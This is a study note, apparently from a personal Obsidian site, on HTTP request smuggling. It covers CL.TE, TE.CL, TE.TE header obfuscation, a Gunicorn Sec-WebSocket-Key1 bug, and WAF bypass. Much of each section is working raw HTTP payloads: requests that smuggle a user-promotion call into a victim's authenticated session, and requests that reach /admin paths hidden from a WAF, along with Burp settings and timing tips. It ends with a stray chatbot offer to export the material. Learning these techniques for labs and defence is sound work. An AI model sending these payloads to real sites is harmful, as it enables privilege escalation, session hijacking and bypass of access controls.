





---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/http-smuggling/","tags":["web"],"noteIcon":"","created":"2025-04-15T14:11:19.603-04:00"}
---


###  HTTP Request Smuggling Attack Methods

| **Attack Type**        | **Proxy Behavior**                   | **Backend Behavior**                                                          | **Key Header Used**              | **Test/Detect Steps**                                                                                                  | **Exploit Steps**                                                             | **Impact**                                  |
| ---------------------- | ------------------------------------ | ----------------------------------------------------------------------------- | -------------------------------- | ---------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- | ------------------------------------------- |
| **CL.TE**              | Uses `Content-Length`                | Uses `Transfer-Encoding`                                                      | `Transfer-Encoding` present      | 1. Send crafted POST with both headers. 2. Send second GET request. 3. If `405` or desync response → vulnerable        | Inject GET `/admin` request inside POST body using chunked format             | Admin request runs under victim's session   |
| **TE.CL**              | Uses `Transfer-Encoding`             | Uses `Content-Length`                                                         | `Content-Length` present         | 1. Send crafted POST with fake TE (`asdchunked`). 2. Observe `400 Bad Request` on 2nd request                          | Smuggle GET `/admin` in chunked body, using `/404` as decoy                   | Bypasses WAF blocking `/admin`              |
| **TE.TE**              | Supports TE but ignores malformed TE | Backend properly uses TE                                                      | Obfuscated `Transfer-Encoding`   | 1. Obfuscate `Transfer-Encoding` using TAB, VT, or spacing. 2. Send two requests. 3. If 2nd request fails → vulnerable | Place smuggled request using obfuscated TE, wait for admin to send normal GET | Authenticated admin triggers attacker’s GET |
| **Gunicorn Bug**       | Not relevant (bug in server)         | Gunicorn ignores CL, fixes body to 8 bytes if `Sec-WebSocket-Key1` is present | `Sec-WebSocket-Key1`             | 1. Send GET with 49-byte body using 8x `x`, and smuggled `GET /admin`                                                  | Gunicorn parses 2nd request as `GET /admin` due to bug                        | Smuggled admin request bypasses WAF         |
| **Generic WAF Bypass** | Parses only 1st request              | Backend sees full request stream                                              | Any smuggled path in 2nd request | 1. Use `/404` or safe endpoint in initial line. 2. Smuggle sensitive endpoint inside body                              | Bypass WAF filters by hiding `/admin` from proxy                              | Access internal APIs or sensitive endpoints |
| **Mass XSS via CL.TE** | Ignores TE                           | Uses chunked parsing                                                          | Chunked body                     | 1. Inject XSS in smuggled GET. 2. Victim receives malformed payload                                                    | Smuggled script injected in victim’s response                                 | Scalable XSS exploitation                   |

# 1. CL.TE Request Smuggling

### Concept

A **CL.TE (Content-Length → Transfer-Encoding)** vulnerability occurs when:

- The **reverse proxy does not support `Transfer-Encoding`**, so it uses `Content-Length` to determine the request body size.
    
- The **backend server supports `Transfer-Encoding`** and correctly prioritizes it over `Content-Length`.
    

This mismatch leads to **desynchronization**, where the proxy and backend disagree on request boundaries.


---

### Header Behavior

| Component   | Behavior                                                                          |
| ----------- | --------------------------------------------------------------------------------- |
| **Proxy**   | Uses `Content-Length`                                                             |
| **Backend** | Uses `Transfer-Encoding: chunked`                                                 |
| **Result**  | Proxy sends more than backend expects; leftover data becomes part of next request |

---

### Vulnerability Trigger

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```

#### Proxy View:

- Uses `Content-Length: 10`    
- Parses body as: `0\r\n\r\nHELLO`    
- Sends the full body to backend
    

#### Backend View:

- Uses chunked parsing    
- Ends request at `0\r\n\r\n`    
- Treats `HELLO` as start of a new request
    

---

### Desynchronization Example

#### Attacker sends:

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```

#### Victim sends:

```http
GET / HTTP/1.1
Host: target.site
```

#### TCP Stream (Proxy View):

```
[Request 1]
POST / HTTP/1.1
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
[Request 2]
GET / HTTP/1.1
Host: target.site
```

#### TCP Stream (Backend View):

```
[Request 1]
POST / HTTP/1.1
Transfer-Encoding: chunked

0

[Request 2]
HELLOGET / HTTP/1.1
Host: target.site
```

The backend interprets the next method as `HELLOGET`, which is invalid. It returns an HTTP `405 Method Not Allowed`.

---
### Exploitation Scenario

#### Goal:

Force an authenticated user (e.g., an admin) to unknowingly perform an action like:

```http
POST /api/promote_user?id=2 HTTP/1.1
```

#### Smuggling Payload:

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 52
Transfer-Encoding: chunked

0

POST /api/promote_user?id=2 HTTP/1.1
Dummy:
```

#### Victim Request (sent shortly after):

```http
GET / HTTP/1.1
Host: target.site
Cookie: session=<user_session>
```

#### Proxy View:

```
POST / HTTP/1.1
Content-Length: 52
Transfer-Encoding: chunked

0

POST /api/promote_user?id=2 HTTP/1.1
Dummy:
GET / HTTP/1.1
Host: target.site
Cookie: session=<user_session>
```

#### Backend View:

```
POST / HTTP/1.1
Transfer-Encoding: chunked

0

POST /api/promote_user?id=2 HTTP/1.1
Dummy: GET / HTTP/1.1
Host: target.site
Cookie: session=<user_session>
```

The backend executes the smuggled admin request using the authenticated session of the victim.

---

### Why Use `Dummy:`?

- The `Dummy:` line is necessary to ensure the backend treats the first line of the victim's request as a **valid HTTP header**, preserving request format.
    
---

# 2. TE.CL Request Smuggling

## Concept

A **TE.CL (Transfer-Encoding → Content-Length)** vulnerability occurs when:

- The **reverse proxy uses** `Transfer-Encoding: chunked`.
    
- The **backend server uses** `Content-Length` to determine the request body size.

### Mermaid Diagram



## Header Behavior

|Component|Behavior|
|---|---|
|**Proxy**|Uses `Transfer-Encoding`|
|**Backend**|Uses `Content-Length`|
|**Result**|Backend reads leftover data as part of the next request|

---

## Vulnerability Trigger

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 3
Transfer-Encoding: chunked

5
HELLO
0
```

#### Proxy View:

- Parses chunked body: `HELLO`
    
- Ends request after `0\r\n\r\n`
    
- Forwards complete body to backend
    

#### Backend View:

- Reads 3 bytes: `5\r\n`
    
- Leaves `HELLO\r\n0\r\n\r\n` in buffer
    
- Interprets it as start of a new request
    

---

### Desynchronization Example

#### Request 1:

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 3
Transfer-Encoding: chunked

5
HELLO
0
```

#### Request 2:

```http
GET / HTTP/1.1
Host: target.site
```

#### TCP Stream (Proxy View):

```
[Request 1]
POST / HTTP/1.1
Transfer-Encoding: chunked

5
HELLO
0
[Request 2]
GET / HTTP/1.1
Host: target.site
```

#### TCP Stream (Backend View):

```
[Request 1]
POST / HTTP/1.1
Content-Length: 3

5\r\n
[Request 2]
HELLO\r\n0\r\n\r\nGET / HTTP/1.1
Host: target.site
```

The backend appends the leftover data to the next request, resulting in an invalid or broken request.

---

### Detection

1. Configure Burp Suite to disable auto-updating of `Content-Length`.
    
2. Send two requests via a single connection:
    
    - A malformed TE.CL request.
        
    - A follow-up GET request.
        
3. If the second response returns `400 Bad Request`, the target is vulnerable.
    

---

### Exploitation Scenario: WAF Bypass

#### Goal:

Bypass a WAF that blocks URLs containing `/admin`.

---

### Exploitation Payload 1 (smuggled request):

```http
GET /404 HTTP/1.1
Host: target.site
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: target.site

0
```

### Exploitation Payload 2 (filler):

```http
GET /404 HTTP/1.1
Host: target.site
```

#### Proxy (WAF) View:

- Uses chunked parsing.
    
- Sees two requests to `/404`.
    
- Does not see `/admin`, so no filtering occurs.
    

#### Backend View:

- Uses `Content-Length: 4`, reads only `27\r\n`.
    
- Sees:
    
    1. `GET /404` → 404 response
        
    2. `GET /admin` → successful admin access
        
    3. Broken request → ignored or returns `400`
        

---

### Why It Works

- Proxy parses the body using chunked encoding (sending two safe requests).
    
- Backend reads only a few bytes and treats the remainder as new requests.
    
- `/admin` path is **never visible to the proxy**, bypassing filtering.
    

---

### Optional Configuration Notes (for testing)

- In Burp Repeater:
    
    - Go to **Settings → Disable "Update Content-Length"**.
        
    - Right-click tabs → **Group them** → Send as **"Send group in sequence (single connection)"**.
        

---

### Key Takeaways

|Concept|Description|
|---|---|
|TE.CL Vulnerability|Proxy uses chunked; backend uses CL|
|Trigger|Remaining chunked data becomes a new request|
|Detection|Send malformed chunked + GET → look for `400 Bad Request`|
|Exploitation Technique|Smuggle `/admin` behind harmless path like `/404`|
|Bypasses WAF|WAF sees `/404`, backend sees `/admin`|
|Real-World Use Case|Accessing restricted admin pages, bypassing security filters|

---

# 3. TE.TE Request Smuggling

### Concept

A **TE.TE (Transfer-Encoding → Transfer-Encoding)** vulnerability occurs when:

- **Both the reverse proxy and backend support chunked encoding**.
    
- However, **one of them misinterprets an obfuscated `Transfer-Encoding` header** and falls back to using `Content-Length` instead.
    

This discrepancy allows an attacker to exploit **desynchronization** by tricking the proxy or backend into parsing the request differently.

---

### Header Behavior

|Component|Behavior|
|---|---|
|**Proxy**|May ignore obfuscated `Transfer-Encoding`|
|**Backend**|Parses `Transfer-Encoding` correctly|
|**Result**|Proxy uses `Content-Length`, backend uses `TE`|

---

### Obfuscation Techniques

| **Method**               | **Header Example**                |
| ------------------------ | --------------------------------- |
| Substring match          | `Transfer-Encoding: testchunked`  |
| Space in header name     | `Transfer-Encoding : chunked`     |
| Horizontal tab separator | `Transfer-Encoding:`HTAB`chunked` |
| Vertical tab separator   | `Transfer-Encoding:`VTAB`chunked` |
| Leading space            | `Transfer-Encoding: chunked`      |

Note: `HTAB` is ASCII `0x09`; `VTAB` is ASCII `0x0b`.

---

### Detection

1. Craft a POST request using a **Transfer-Encoding obfuscation** technique.
    
2. Immediately follow it with a GET request over the same TCP connection.
    
3. If the **second response returns `405 Method Not Allowed`**, desynchronization is confirmed.
    

#### Example Request (Detection):

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 10
Transfer-Encoding:	chunked  # Horizontal tab obfuscation

0

HELLO
```

---

### Exploitation

#### Objective:

Force an authenticated user (e.g., admin) to trigger a backend request like:

```http
GET /admin?reveal_flag=1 HTTP/1.1
```

#### Exploitation Payload:

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 46
Transfer-Encoding:	chunked  # Horizontal tab or vertical tab

0

GET /admin?reveal_flag=1 HTTP/1.1
Dummy:
```

#### Victim Request:

```http
GET / HTTP/1.1
Host: target.site
Cookie: session=<user_session>
```

---

### Why It Works

- The **proxy fails to recognize the obfuscated `Transfer-Encoding` header**, falling back to `Content-Length`.
    
- The **backend honors the `Transfer-Encoding`**, stopping at `0\r\n\r\n`.
    
- Remaining bytes (`GET /admin...`) are treated as the start of a new request, **smuggled into the victim's session**.
    

---

### Timing Considerations

- TE.TE exploitation is often **time-sensitive**.
    
- You may need to **send the payload repeatedly (e.g., every 1 second)** until the target user triggers the backend.
    

---

### Key Takeaways

|Concept|Description|
|---|---|
|TE.TE Vulnerability|Caused by inconsistent handling of obfuscated TE headers|
|Obfuscation Techniques|Tabs, spacing, or string variations to evade proxy parsing|
|Detection|`405` or invalid method errors on follow-up requests|
|Exploitation Technique|Embed a second request after the chunk terminator|
|Timing Requirement|Multiple attempts may be needed to align with the victim’s request timing|
|Real-World Use Case|Stealthy privilege escalation or access to protected routes|

---

### Mermaid Diagram



---


# 4. Gunicorn (Sec-WebSocket-Key1 Bug)

### Concept

- **Gunicorn version 20.0.4** contains a **non-standard behavior**:  
    When the header `Sec-WebSocket-Key1` is present, **Gunicorn fixes the request body size to exactly 8 bytes**.
    
- It **ignores both** `Content-Length` and `Transfer-Encoding`, creating an opportunity for request desynchronization.
    

---

### Header Behavior

| Component   | Behavior                                                          |
| ----------- | ----------------------------------------------------------------- |
| **Proxy**   | Uses `Content-Length` normally                                    |
| **Backend** | Uses a hardcoded `8-byte` body if `Sec-WebSocket-Key1` is present |
| **Result**  | Extra bytes are interpreted as the next request                   |

---

### Detection

Send the following request via a single connection:

```http
GET / HTTP/1.1
Host: target.site
Content-Length: 49
Sec-WebSocket-Key1: x

xxxxxxxxGET /404 HTTP/1.1
Host: target.site
```

Follow it with:

```http
GET / HTTP/1.1
Host: target.site
```

If the second response is for `/404`, it indicates that the backend misaligned and parsed the embedded `GET` request separately.

---

### Exploitation Payload

```http
GET / HTTP/1.1
Host: target.site
Content-Length: 49
Sec-WebSocket-Key1: x

xxxxxxxxGET /admin HTTP/1.1
Host: target.site
```

---

### Why It Works

- Proxy uses `Content-Length: 49` and parses everything.
    
- Gunicorn backend **reads only the first 8 bytes** (`xxxxxxxx`) and treats the remainder as a separate request.
    
- This leads to **bypassing filters** or controls applied only to the first request.
    

---

### Key Takeaways

|Concept|Description|
|---|---|
|Gunicorn Bug|Triggered by `Sec-WebSocket-Key1` header|
|Fixed Body Length|Gunicorn always reads **exactly 8 bytes** as the request body|
|Exploitation Method|Smuggle a second request right after 8 dummy bytes|
|Real-world Impact|Can **bypass WAFs** or **manipulate legitimate user requests**|

---

### Mermaid Diagram



---

# 5. Generic WAF Bypass via Smuggling

### Concept

- WAFs inspect and block requests containing sensitive strings like `/admin`.
    
- If the WAF **only sees the first request**, smuggled requests **bypass filtering**.
    
- Works in **CL.TE**, **TE.CL**, and even buggy implementations.
    

---

### CL.TE Payload

```http
POST / HTTP/1.1
Host: vuln.site
Content-Length: 64
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Host: localhost
Dummy:
```

- Proxy uses `Content-Length`, backend uses chunked encoding.
    
- WAF only sees `/`, backend executes `/admin`.
    

---

### TE.CL Payload

```http
GET / HTTP/1.1
Host: vuln.site
Content-Length: 4
Transfer-Encoding: chunked

35
GET /admin HTTP/1.1
Host: vuln.site

0
```

- Proxy uses chunked encoding and forwards the safe `/` request.
    
- Backend reads `4` bytes and sees the remaining as a valid `/admin` request.
    

---

### Why It Works

- Smuggled payload is **hidden from the WAF**, which only filters the first request.
    
- Backend interprets hidden content as a new, fully valid request.
    

---

### Key Takeaways

|Concept|Description|
|---|---|
|WAF Filtering|Based on first request and visible URL paths|
|Smuggling Technique|Use request boundary confusion to hide `/admin` from WAF|
|CL.TE Variant|Proxy uses `CL`, backend sees chunked body containing `/admin`|
|TE.CL Variant|Proxy uses chunked, backend uses `CL`, reads partial body, reveals `/admin`|
|Real-world Use Case|Bypassing access control and reaching internal or restricted functionality|

---

### Mermaid Diagram



---

Let me know if you’d like all 5 cases exported into a single printable file or Obsidian vault bundle.